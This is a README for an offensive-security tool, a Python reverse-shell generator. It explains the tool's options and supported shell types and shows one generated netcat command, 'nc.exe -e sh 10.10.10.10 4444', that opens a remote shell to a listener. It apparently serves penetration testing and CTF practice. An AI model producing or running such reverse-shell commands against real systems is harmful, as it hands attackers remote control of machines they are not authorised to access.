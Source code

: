 ## Requirements
Pyperclip
```bash
  pip3 install pyperclip
```
Psutil
```bash
  pip3 install psutil
```
## Quick usage

#### Clone the repository (or just copy-paste)
```bash
  sudo git clone https://github.com/Gurguii/Reverse-shell-Generator
```
#### Run the script
```bash
    python3 reverse.py -s <revshell_type> -lh <lhost> -lp* <lport> -enc* <encode_type>
```  
**Note:** default LPORT is 4444, params with * are optional.  
**Available revshells:** bash, netcat, ncat, rustcat, perl, php, windows, powershell, python, ruby, socat, nodejs, telnet, zsh, lua, golang, awk.  
**Available encodes**: base64(also accepts b64 as input), url  
### Useful info  
- Get a list of all available reverse shells  
```bash
    python3 reverse.py -s listall
```  
- Get a list of reverse shells of a given type with the name
```bash
    python3 reverse.py -s nc=list
```
Output:  
 ![image](https://user-images.githubusercontent.com/101645735/178015002-a7ec7467-8b62-4c14-9648-e0c0bf90e019.png)

- Choose a specific reverse shell by name
```bash
    python3 reverse.py -s nc=exe -lh 10.10.10.10
```
This would return => **nc.exe -e sh 10.10.10.10 4444**

## Test 
- Created reverse shell:
```bashi
  hack@hack:~$ python3 reverse.py -s bash=gurgui -lh localhost -lp 9001
```
![If you see this text you are having trouble loading the gif :(](https://media.giphy.com/media/woqDTmU2pL2tc4eJ5c/giphy.gif)  

As you might have noticed, I wrote bash=gurgui, that's because I changed the name of that exact bash rshell to gurgui in the script.  
Having the script in ur path with custom names for shells you usually go for might make this super fast.  
